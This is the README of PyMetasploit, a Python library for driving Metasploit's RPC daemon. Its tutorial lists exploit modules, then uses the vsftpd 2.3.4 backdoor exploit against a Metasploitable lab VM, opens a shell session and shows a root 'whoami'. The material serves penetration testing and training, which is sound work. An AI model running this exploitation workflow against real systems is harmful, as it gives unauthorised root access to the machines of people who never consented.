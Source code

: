 ### Now with python-3 support

PyMetasploit - a full-fledged msfrpc library for Python
-------------------------------------------------------

PyMetasploit is a full-fledged `msfrpc` library for Python. It is meant to interact with the msfrpcd daemon that comes
with the latest versions of Metasploit. It does NOT interact with the console-based scripts that Metasploit provides
such as msfconsole, msfvenom, etc. Therefore, before you can begin to use this library, you'll need to initialize
`msfrpcd` and optionally (highly recommended) PostgreSQL.

# Requirements

Before we begin, you'll need to install the following components:

* **Metasploit:** https://github.com/rapid7/metasploit-framework
* **PostgreSQL (Optional):** http://www.postgresql.org

Installing PostgreSQL is highly recommended as it will improve response times when querying `msfrpcd` (Metasploit RPC
daemon) for module information.

# Tutorial

## Starting `msfrpcd`

`msfrpcd` accepts the following arguments:

```bash
$ ./msfrpcd -h

   Usage: msfrpcd <options>

   OPTIONS:

       -P <opt>  Specify the password to access msfrpcd
       -S        Disable SSL on the RPC socket
       -U <opt>  Specify the username to access msfrpcd
       -a <opt>  Bind to this IP address
       -f        Run the daemon in the foreground
       -h        Help banner
       -n        Disable database
       -p <opt>  Bind to this port instead of 55553
       -u <opt>  URI for Web server
```

The only parameter that is required to launch `msfrpcd` is the `-P` (password) parameter. This specifies the password
that will be used to authenticate users to the daemon. As of this writing, `msfrpcd` only supports one username/password
combination. However, the same user can log into the daemon multiple times. Unless specified otherwise, the `msfrpcd`
daemon listens on port 55553 on all interfaces (`0.0.0.0:55553`).

For the purposes of this tutorial let's start the `msfrpcd` daemon with a minimal configuration:

```bash
$ ./msfrpcd -P mypassword -n -f -a 127.0.0.1
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] MSGRPC ready at 2014-04-19 23:49:39 -0400.
```

The `-f` parameter tells `msfrpcd` to remain in the foreground and the `-n` parameter disables database support.
Finally, the `-a` parameter tells `msfrcpd` to listen for requests only on the local loopback interface (`127.0.0.1`).

## `MsfRpcClient` - Brief Overview

### Connecting to `msfrpcd`

Let's get started interacting with the Metasploit framework from python:

```python
>>> from metasploit.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('mypassword')
```

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Let's take a
look at its underbelly:

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins',
'port', 'server', 'sessionid', 'sessions', 'ssl', 'uri']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an Exploit

Just like the Metasploit console, you can retrieve a list of all the modules that are available. Let's take a look at
what exploits are currently loaded:

```python
>>> client.modules.exploits
['windows/wins/ms04_045_wins', 'windows/winrm/winrm_script_exec', 'windows/vpn/safenet_ike_11',
'windows/vnc/winvnc_http_get', 'windows/vnc/ultravnc_viewer_bof', 'windows/vnc/ultravnc_client', ...
'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21']
>>>
```

We can also retrieve a list of `auxiliary`, `encoders`, `nops`, `payloads`, and `post` modules using the same syntax:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Now let's interact with one of the `exploit` modules:

```python
>>> exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
>>>
```

If all is well at this point, you will be able to query the module for various pieces of information such as author,
description, required run-time options, etc. Let's take a look:

```python
>>>  print exploit.description

          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.

>>> exploit.authors
['hdm <hdm@metasploit.com>', 'MC <mc@metasploit.com>']
>>> exploit.options
['TCP::send_delay', 'ConnectTimeout', 'SSLVersion', 'VERBOSE', 'SSLCipher', 'CPORT', 'SSLVerifyMode', 'SSL', 'WfsDelay',
'CHOST', 'ContextInformationFile', 'WORKSPACE', 'EnableContextEncoding', 'TCP::max_send_size', 'Proxies',
'DisablePayloadHandler', 'RPORT', 'RHOST']
>>> exploit.required # Required options
['ConnectTimeout', 'RPORT', 'RHOST']
```

That's all fine and dandy but you're probably really itching to pop a box with this library right now, amiright!? Let's
do it! Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our target. Luckily it's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded in PyMetasploit. Our next step is to specify our target:

```python
>>> exploit['RHOST'] = '172.16.14.145' # IP of our target host
>>>
```

You can also specify or retrieve other options as well, as long as they're listed in `exploit.options`, using the same
method as shown above. For example, let's get and set the `VERBOSE` option:

```python
>>> exploit['VERBOSE']
False
>>> exploit['VERBOSE'] = True
>>> exploit['VERBOSE']
True
>>>
```

Awesome! So now we're ready to execute our exploit. All we need to do is select a payload:

```python
>>> exploit.payloads
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

Excellent! It looks like our exploit ran successfully. How can we tell? The `job_id` key contains a number. If the
module failed to execute for any reason, `job_id` would be `None`. For long running modules, you may want to poll the
job list by checking `client.jobs.list`. Since this is a fairly quick exploit, the job list will most likely be empty
and if we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'ndouba', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

Success! We managed to pop the box! `client.sessions.list` shows us that we have a live session with the same `uuid` as
the one we received when executing the module earlier (`exploit.execute()`). Let's interact with the shell:

```python
>>> shell = client.sessions.session(1)
>>> shell.write('whoami\n')
>>> print shell.read()
root
>>> # Happy dance!
```

This is just a sample of how powerful PyMetasploit can be. Use your powers wisely, Grasshopper, because with great power
comes great responsibility – unless you are a banker.

# Questions?

Email me at ndouba.at.gmail.com
